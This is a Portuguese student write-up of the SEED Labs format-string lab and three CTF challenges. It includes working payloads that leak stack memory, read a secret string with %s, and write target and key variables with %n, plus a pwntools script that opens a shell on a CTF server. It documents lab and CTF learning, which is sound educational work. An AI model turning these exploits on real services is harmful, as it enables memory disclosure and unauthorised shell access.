










# Semana 7

## SEED Labs - Format-String Vulnerability Lab

### Task 1

Primeiramente como parte do setup deste Lab, tivemos de desligar a randomização de endereços para facilitar a descoberta e localização dos endereços do programa.

    $ sudo sysctl -w kernel.randomize_va_space=0

Para a primeira tarefa bastou inserir a seguinte string de input:

    $ echo '%s' | nc 10.9.0.5 9090

A vulnerabilidade de format string envolve a tentativa de aceder e imprimir uma string localizada no endereço imediatamente acima da posição atual na pilha de execução. Isso geralmente leva a um acesso a uma região de memória além dos limites virtuais do processo, representando um risco de segurança significativo.

Ao observarmos que no lado do servidor não retornou `Returned properly` podemos concluir que o servidor crashou.

### Task 2

#### Task 2.A

Nesta task, "AAAA" é escolhido como um valor conhecido e os "%08x" são usados para formatar e imprimir os 4 bytes (32 bits) de cada valor na pilha de execução, onde n é o número desejado de valores para imprimir. Isso pode ser utilizado para explorar e analisar o conteúdo da memória adjacente na execução do programa.

```note
echo "AAAA%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```

E o output do servidor:

```note
AAAA112233440000100008049DB5080E5320080E61C0FFB18480FFB183A8080E62D4080E5000FFB1844808049F7EFFB18480000000000000006408049F47080E5320000004D7FFB18585FFB18480080E532009C8F72000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000C35B4F00080E5000080E5000FFB18A6808049EFFFFB1848000000105000005DC080E5320000000000000000000000000FFB18B340000000000000000000000000000010541414141
```

O final 41414141 é uma representação do endereço da string "AAAA" fornecida como entrada. Vale ressaltar que os bytes estão organizados de forma invertida.

Entre a string "AAAA" e 41414141, existe um total de 504 caracteres. Cada endereço é composto por 8 caracteres (32 bits), resultando em 63 endereços na pilha entre a string de formatação e o buffer.

Assim, para exibir os primeiros 4 bytes da entrada inicial, é necessário criar uma string contendo exatamente 64 %x: os 63 primeiros para mostrar os endereços intermediários e o último para apresentar os 32 bits iniciais (4 bytes) da entrada.

#### Task 2.B

Na tarefa atribuída, a meta consistia em exibir o conteúdo de uma string de mensagem secreta localizada na Heap, mais precisamente no endereço 0x080b4008. Empregamos os mesmos princípios utilizados na tarefa anterior, visto que o programa em execução no servidor permaneceu inalterado. Para representar o endereço 0x080b4008 como uma string, aplicamos a codificação \x08\x0b\×40\×08. Ao inserir esse endereço no início da entrada, seguido por 63 %08x e um %s, a string de formatação leu a partir desse endereço e revelou o valor oculto. O código executado foi o seguinte:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";

    system(cmd);
    return 0;
}
```

E o output foi o seguinte:



### Task 3

#### Task 3.A

Nesta tarefa, o objetivo foi modificar o valor da variável "target", que foi inicialmente definida como 0x11223344 e está localizada no endereço 0x080e5068. O comando %n foi utilizado nas strings de formatação para escrever na região de memória correspondente ao argumento passado como parâmetro, com o intuito de registrar o número de caracteres escritos até aquele momento. A abordagem segue uma lógica semelhante à tarefa 2.B, com a diferença de que, em vez de ler do endereço selecionado, agora estamos escrevendo nele. O código executado foi o seguinte:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";

    system(cmd);
    return 0;
}
```

E output foi o seguinte:



#### Task 3.B

Nesta instância, o objetivo consistia em modificar o valor da variável "target" para um valor específico: 0x5000, equivalente a 20480 em decimal. Ao entender o comportamento do formato %n, que insere o número de caracteres escritos até o momento, a entrada até %n deveria conter exatamente 20480 caracteres. Dado que a entrada é extensa, utilizamos a notação %.NX, com N = 20480 + 4 - 63\*8 = 19980, para preencher os 19980 caracteres restantes com o valor 0. O código executado foi o seguinte:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";

    system(cmd);
    return 0;
}
```

E o output o seguinte:





## CTF - Format Strings

O objetivo deste CTF era explorar as vulnerabilidades format string de um servidor de modo a conseguir aceder à flag guardada pelos mesmos.

### Parte 1

No primeiro desafio, localizado em `nc ctf-fsi.fe.up.pt 4004`, começamos por correr o `checksec` no programa que está a correr no servidor.



A observação mais notável aqui é que o endereço base do executável **não** é randomizado, ou seja, o programa será sempre carregado para um endereço específico (0x8048000 neste caso).

Ao ler o código fonte do programa, encontramos as 3 seguintes linhas que são particularmente interessantes:

``` c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Na primeira linha, o programa recolhe um input de 32 bytes do utilizador e guarda-o num buffer que, de seguida, é escrito no terminal pelo `printf` diretamente, o que é vulnerável a ataques format string. Como tal, a ideia do ataque é passar o endereço da variável `flag` ao programa e dar print à mesma com o format `%s`.

Começamos então por correr o programa localmente com o `gdb` e descobrir o endereço da variável flag:

``` c
(gdb) p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
```

Vamos então utilizar o ficheiro `exploit_example.py` que nos é disponibilizado para dar print ao conteúdo esse endereço e, finalmente, obter a flag.

``` python
p.sendline(b"\x60\xC0\x04\x08%s")
```




### Parte 2

No segundo desafio, localizado em `nc ctf-fsi.fe.up.pt 4005`, começamos por correr o `checksec` novamente, com os mesmos resultados que no primeiro desafio: o endereço base do executável continua a **não** ser randomizado. O desafio também possui as mesmas 3 linhas vulneráveis que permitem o uso de format strings por parte do utilizador.

Desta vez, a flag não é armazenada em nenhuma variável no programa, mas continua a estar disponível no ficheiro `flag.txt` dentro do servidor. Em vez disso, vamos focar a nossa atenção na variável `key` que, quando é igual a 0xBEEF, o servidor abre um terminal para o user.

Para este desafio, parece apropriado mais apropriado usar o format `%n`, que conta o número de carateres que já foram dados print até ao momento e escreve esse número para a variável especificada.

Começamos então por correr o programa localmente com o `gdb` e descobrir o endereço da variável key:

``` c
(gdb) p &key
$1 = (int *) 0x804b324 <key>
```

Vamos então utilizar o ficheiro `exploit_example.py` do desafio anterior e alterar algumas das linhas de modo a escrever o número 48879 (0xBEEF convertido para decimal) na variável key. Para isso, inserimos 48875 bytes vazios depois dos 4 bytes iniciais, que dá um total de 48879.

 Depois de correr o exploit, conseguimos aceder aos ficheiros do servidor e, finalmente, ler os conteúdos do ficheiro da flag.

```python
p.recvuntil(b"here...")
p.sendline(b"\x24\xb3\x04\x08%48875x%1$n")
```



### Competitivo 

Neste desafio, localizado em `nc ctf-fsi.fe.up.pt 4008`, começamos por correr o `checksec` novamente, obtendo um resultado diferente: Relocation Read-Only não está ativado. O que significa que os binários podem ser alterados.



De seguida corremos o programa localmente com o `gdb` e descobrimos o endereço da variável `key`:




Como cada endereço partilha um byte com o próximo, podemos concluir que em vez de este ser ```0x0804B320``` será utilizado o valor ```0x0804B31F```. Portanto, o nosso objetivo é enviar 0xBEEFXX para dar overflow na variável key e assim obter acesso ao terminal, onde X pode ser qyualquer valor até 0xEF. 

Então para isso, utilizamos o seguinte código:

```python

from pwn import *

LOCAL = False
  
p = remote("ctf-fsi.fe.up.pt", 4008)


p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513020x%n")
p.interactive()
```

Onde o valor ```12513024-4(endereço) = 12513020``` é o valor decimal de 0xBEEFXX, onde XX é o valor que queremos enviar. Por fim, para dar overflow, escrevemos então 4 ```A```. 

